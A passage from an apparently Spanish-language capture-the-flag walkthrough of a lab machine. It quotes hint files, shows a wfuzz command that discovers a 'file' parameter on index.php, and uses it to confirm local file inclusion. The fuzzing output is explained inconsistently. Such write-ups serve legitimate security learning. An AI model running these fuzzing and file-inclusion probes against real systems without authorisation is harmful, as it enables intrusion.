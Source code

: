 Encontramos un archivo de texto llamado secret.txt. Ahora, vamos a revisar su contenido
```bash
Looks like you have got some secrets.

Ok I just want to do some help to you. 

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck 
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
 


//see the location.txt and you will get your next move//
```
El archvio proporciona una indicacion para un enlace de github y un archivo llamado location.txt, la pagina de github contiene algunos coamndos para Fuzzing pdemos ver "file" como carga util podria ser otra pista, por lo que la usamos como parametro
```bash
COMMAND = wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 500 http://website-ip/index.php?FUZZ=something

And it will return result which is given below.

Total requests: 950

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000357:  C=200      70 L	      500 W	    2006 Ch	  "file"

Total time: 3.753362
Processed Requests: 950
Filtered Requests: 949
Requests/sec.: 253.1063

Here we can see C=200(Our HTTP Respone from server). 
7 L ==> It means 7 lines return by server. 
500 W  ==> It means 19 words total count by wfuzz.
2006 Ch  ==> It means 206 total chars count by wfuzz which is return by server.
```
Decidimos probar esta pista junto con la indicación de usar el archivo llamado location.txt, navegando a través del parámetro http://10.0.1.23/index.php?file=location.txt
```bash
ok well Now you reah at the exact parameter

Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun. 
```
Hemos logrado acceder al archivo location.txt, lo que indica que el sistema es vulnerable a la inclusión de archivos locales (LFI, por sus siglas en inglés).
